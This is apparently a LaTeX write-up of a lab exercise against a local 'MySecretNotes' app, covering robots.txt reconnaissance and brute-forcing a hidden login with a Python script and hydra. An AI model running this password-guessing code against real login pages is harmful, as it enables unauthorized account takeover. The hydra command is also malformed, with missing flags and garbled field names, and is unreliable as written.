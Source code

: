 \subsection{Scouting the landscape}
When gathering information about our target group, we started 
by checking their \texttt{MySecretNotes} app. We would look 
for vulnerabilities in the app using both \texttt{sqlmap} and \texttt{msf} console. 
We also checked the http response headers and dom-tree of the app.
Nothing was found, which led us to search for robot.txt files and 
other public files. We found a \texttt{robots.txt} file that contained a secret endpoint: \texttt{/internal/ops}

\subsection{The brute}
When we accessed the secret internal ops endpoint, we found a login page.
This was a good starting point, as a mark of progress. When trying to login, we
tried the default credentials \texttt{admin:admin} and \texttt{admin:password}, but they did not work.
We then tried to brute force the login page both by making our own python script:
\begin{lstlisting}[language=Python]
import requests

url = 'http://127.0.0.1:5001/internal/ops/'
user = input()
i=0

with open('pwdb_top-1000.txt') as file:
    for line in file:
        payload = {
            "username" : user,
            "password" : line.strip()
        }
        response = requests.post(url, data=payload)
        if "nope" not in response.text:
            print(
                "try", i,
                "status:", response.status_code,
                "redirect:", response.headers.get("Location"),
                "length:", len(response.content),
                "username:", user,
                "password:", line
            )
        i += 1
\end{lstlisting}

At the same time, we also used \texttt{hydra} to brute force the login page.
\begin{lstlisting}{language=bash}
    hydra -L /tmp/users.txt - /Path/To/File/Pwdb_top-1000.txt -s 5001 -t 4 -f -I 127.0.0.1 http post- "/internal/ops/:username=^USER^& sword=^PASS^:F=nope"
\end{lstlisting}

The python script ran with select usernames from the list of most common usernames together with with the top-1000-passwords. Hydra did it similarly, but instead of select usernames, it ran with top 880 usernames together with top-1000-passwords.

Both led to the discovery of the username: ops, and password: letmein. Now we could get into their internal ops platform and begin establishing initial access.